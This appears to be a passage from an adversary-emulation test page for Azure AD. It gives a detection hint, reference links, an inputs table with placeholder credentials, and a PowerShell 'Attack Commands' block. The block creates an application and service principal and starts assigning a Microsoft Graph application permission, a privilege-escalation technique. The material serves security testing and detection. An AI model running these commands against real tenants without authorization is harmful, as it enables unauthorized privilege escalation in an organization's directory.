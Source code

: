 Detection hint - check Operation Name "Add app role assignment to service principal" in subscriptions Activity Logs.
You can also take a look at the materials:
https://learnsentinel.blog/2022/01/04/azuread-privesc-sentinel/
https://github.com/reprise99/Sentinel-Queries
https://docs.google.com/presentation/d/1AWx1w0Xcq8ENvOmSjAJswEgEio-il09QWZlGg9PbHqE/edit#slide=id.g10460eb209c_0_2766
https://gist.github.com/andyrobbins/7c3dd62e6ed8678c97df9565ff3523fb

**Supported Platforms:** Azure-ad


**auto_generated_guid:** 94ea9cc3-81f9-4111-8dde-3fb54f36af4b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Azure AD username | string | jonh@contoso.com|
| password | Azure AD password | string | p4sswd|
| application_name | Name of the targeted application that will be created | string | test_app|
| application_permission | Permission from Microsoft Graph Resource API that will be added to application | string | DirectoryRecommendations.Read.All|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module -Name AzureAD
$PWord = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Pword
Connect-AzureAD -Credential $Credential

$aadApplication = New-AzureADApplication -DisplayName "#{application_name}"
$servicePrincipal = New-AzureADServicePrincipal -AppId $aadApplication.AppId
#$aadApplication = Get-AzureADApplication -Filter "DisplayName eq '#{application_name}'"

#Get Service Principal of Microsoft Graph Resource API 
$graphSP = Get-AzureADServicePrincipal -Filter "DisplayName eq 'Microsoft Graph'"

#Initialize RequiredResourceAccess for Microsoft Graph Resource API 
$requiredGraphAccess = New-Object Microsoft.Open.AzureAD.Model.RequiredResourceAccess
$requiredGraphAccess.ResourceAppId = $graphSP.AppId
$requiredGraphAccess.ResourceAccess = New-Object System.Collections.Generic.List[Microsoft.Open.AzureAD.Model.ResourceAccess]

#Set Application Permissions
$ApplicationPermissions = @('#{application_permission}')

$reqPermission = $graphSP.AppRoles | Where-Object {$_.Value -eq $ApplicationPermissions}
if($reqPermission)
{
$resourceAccess = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$resourceAccess.Type = "Role"
$resourceAccess.Id = $reqPermission.Id    
#Add required app permission
$requiredGraphAccess.ResourceAccess.Add($resourceAccess)
}
else
{
Write-Host "App permission $permission not found in the Graph Resource API" -ForegroundColor Red
}
```